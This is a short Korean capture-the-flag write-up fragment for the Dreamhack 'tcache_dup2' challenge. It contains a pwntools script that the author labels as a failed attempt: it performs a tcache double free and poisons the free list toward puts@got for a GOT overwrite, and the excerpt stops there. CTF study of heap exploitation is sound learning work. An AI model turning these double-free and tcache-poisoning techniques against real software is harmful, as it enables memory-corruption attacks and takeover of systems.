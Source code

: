 <br>

## **ex.wrong4.py**

참고로 `Double Free`를 통해 처음에 `tc_idx = 2`로 만들어주더라도, 바로 `edit` 으로 중복된 청크를 날리지 않고 `create`를 해주면 마지막에 `tc_idx = 0`인 상태에서 `GOT Overwrite`를 하게 되어서 익스플로잇에 성공하지 않게 된다.

```py
from pwn import *

p = remote('host3.dreamhack.games', 21924)
elf = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[0]
delete(0)


# tcache[0x20] : ptr[0] -> b'aaaaaaaa'
# tc_idx = 1
# chunk : ptr[0]
modify(0, 0x10, b'a'*0x9)


# tcache[0x20] : ptr[0] -> ptr[0] + 0x10
# tc_idx = 2
# chunk : ptr[0]
delete(0)


# tcache[0x20] : ptr[0] -> puts@got
# tc_idx = 1
# chunk : ptr[1]
puts_got = elf.got['puts']
create(0x20, p64(puts_got))


# tcache[0x20] : puts@got
```